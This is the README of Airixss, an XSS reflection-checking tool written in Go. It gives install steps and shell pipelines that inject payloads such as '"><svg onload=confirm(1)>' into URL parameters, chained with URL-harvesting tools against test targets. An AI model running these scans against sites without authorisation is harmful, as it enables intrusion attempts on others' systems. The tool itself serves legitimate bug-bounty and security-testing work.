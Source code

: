 [![made-with-Go](https://img.shields.io/badge/made%20with-Go-brightgreen.svg)](http://golang.org)
<h1 align="center">Airixss</h1> <br>

<p align="center">
  <a href="#--usage--explanation">Usage</a> •
  <a href="#--installation--requirements">Installation</a>
</p>

<h3 align="center">Airixss is for checking reflection in recon process to find xss vulnerable endpoints.</h3>

<img src="https://cdn.discordapp.com/attachments/876919540682989609/961993541322690650/unknown.png">


## Contents:

- [Installation](#--installation--requirements)
- [Usage](#--usage--explanation)
  - [Single Urls](#stdin-single-urls)
  - [Adding Headers](#adding-headers)
  - [Using Proxy](#using-proxy)
  - [Using with other tools](#chaining-with-other-tools)

## - Installation & Requirements:
Using go
```bash
▶ go install github.com/ferreiraklet/airixss@latest
```
Using git clone
```bash
▶ git clone https://github.com/ferreiraklet/airixss.git
▶ cd airixss
▶ go build airixss.go
▶ chmod +x airixss
▶ ./airixss -h
```
<br>


## - Usage & Explanation:

In Your recon process, you may find endpoints that can be vulnerable to xss,
  
* Ex: https://redacted.com/index.php?msg=SameValue
  
* By replacing the "SameValue" to a xss payload, In order to see if there is reflection/vulnerable, it is when you use airixss
  

<br>
  
#### Stdin - Single urls

```bash
echo 'https://redacted.com/index.php?user="><img src=x onerror=confirm(1)>' | airixss -payload "confirm(1)"

echo "http://testphp.vulnweb.com:80/hpp/index.php?pp=x" | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"
```
In -payload flag, you need to specify a part of the payload used in url, -payload "value_will_be_checked_reflection"
  
<br>

#### Stdin - Read from File

```bash
cat targets | airixss -payload "alert(1)"
```

#### Adding Headers

Pay attention to the syntax!
```bash
echo "http://testphp.vulnweb.com:80/hpp/index.php?pp=x" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" -H "header1: value1;Header2: value2"
```

#### Using Proxy
 
```bash
echo "http://testphp.vulnweb.com:80/hpp/index.php?pp=x" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" --proxy "http://yourproxy"
```

#### Chaining with other tools
```bash
echo "http://testphp.vulnweb.com" | waybackurls | anew | gf xss | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1) -H "Header1: Value1;Header2: value2"

echo "http://testphp.vulnweb.com" | waybackurls | nilo | anew | gf xss | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1) -H "Header1: Value1;Header2: value2" --proxy "http://yourproxy"

echo "http://testphp.vulnweb.com" | waybackurls | nilo | anew | gf xss | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1) -H "Header1: Value1;Header2: value2" --proxy "http://yourproxy"
```
    

## Check out some of my other programs <br>

> [Nilo](https://github.com/ferreiraklet/nilo) - Checks if URL has status 200

> [Jeeves](https://github.com/ferreiraklet/jeeves) - Time based blind Injection Scanner


If any error in the program, talk to me immediatly.
## This project is for educational and bug bounty porposes only! I do not support any illegal activities!.
